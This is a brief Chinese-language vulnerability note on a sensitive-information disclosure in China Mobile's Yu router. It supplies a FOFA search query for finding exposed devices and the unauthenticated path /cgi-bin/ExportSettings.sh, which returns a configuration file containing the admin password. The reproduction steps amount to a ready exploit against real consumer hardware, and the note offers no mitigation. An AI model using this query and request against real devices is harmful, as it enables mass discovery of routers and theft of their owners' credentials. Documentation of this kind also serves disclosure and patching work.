


# 中国移动 禹路由 ExportSettings.sh 敏感信息泄露漏洞

## 漏洞描述

中国移动 禹路由 ExportSettings.sh 存在敏感信息泄露漏洞，攻击者通过漏洞获取配置文件，其中包含账号密码等敏感信息

## 漏洞影响

> 中国移动 禹路由

## FOFA

> title="互联世界 物联未来-登录"

## 漏洞复现

登录页面如下



访问Url

```
/cgi-bin/ExportSettings.sh
```



其中password为登录后台密码